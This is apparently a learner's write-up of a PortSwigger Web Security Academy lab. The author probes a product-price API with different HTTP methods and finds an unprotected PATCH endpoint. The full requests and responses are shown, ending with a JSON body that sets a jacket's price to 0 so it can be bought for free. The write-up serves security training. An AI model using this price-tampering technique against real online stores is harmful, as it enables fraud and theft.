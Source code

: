 # Lab - 02 : Finding and exploiting an unused API endpoint

Topic :  Finding and exploiting an unused API endpoint

Concept: Recon the API, find the hidden API endpoint and the documentation and exploit the endpt.

End Goal :  Exploiting a hidden API endpoint to buy a **Lightweight l33t Leather Jacket.**

Analysis : 

- First of all we recon the whole API and find a API endpoint.
- The API endpoint found :

```
GET /api/products/1/price HTTP/2
Host: 0aaf0022031daec784d79b23004400b1.web-security-academy.net
Cookie: session=9rXCi9dmOLzFqw52QGzLlYxe37bc9pBY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aaf0022031daec784d79b23004400b1.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

- API response to this :

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 91

{
"price":"$1337.00",
"message":"Your neighbor just bought 2 of these! Don't feel left out!"
}
```

- The message keeps getting randomized, everytime.
- Let’s find the documentation now.
- could not find in the usual places.
- Let’s brute force the API endpoint now using gobuster
- Brute forcing doesn’t work in this case
- Let’s mess with the requests sent to the api and take hints from the error messages as said in the description
- Discovery
    - PUT → Method Not Allowed
    - PATCH → Unauthorized (Without body)
    - GET → normal one
    - DELETE → Method Not Allowed
    - OPTIONS → Method Not Allowed
- Only interesting request was PATCH, when i sent a body along with it, it shows this message :

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{
"type":"ClientError",
"code":400,
"error":"Only 'application/json' Content-Type is supported"
}
```

- The PATCH request to this endpoint is our hidden endpoint.
- This error means we have to include the `Content-Type: application/json` in the header.
- My request :
    
    ```
    PATCH /api/products/1/price HTTP/2
    Host: 0aaf0022031daec784d79b23004400b1.web-security-academy.net
    Cookie: session=zWbBjyJBwLrv86Oc1ScwpAD4ehVfdg0t
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://0aaf0022031daec784d79b23004400b1.web-security-academy.net/product?productId=1
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Priority: u=4
    Te: trailers
    Content-Length: 24
    Content-Type: application/json
    
    {
    	"price" : "$12"
    }
    ```
    
- Then again error comes which is

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 98

{
"type":"ClientError",
"code":400,
"error":"'price' parameter must be a valid non-negative integer"
}
```

- So i change the body as follows :
- Adhering to the rules…

```

{
	"price" : 0
}
```

- This changes the price to 0 dollars which i can buy now. And after buying the jacket the lab is succesfully completed.
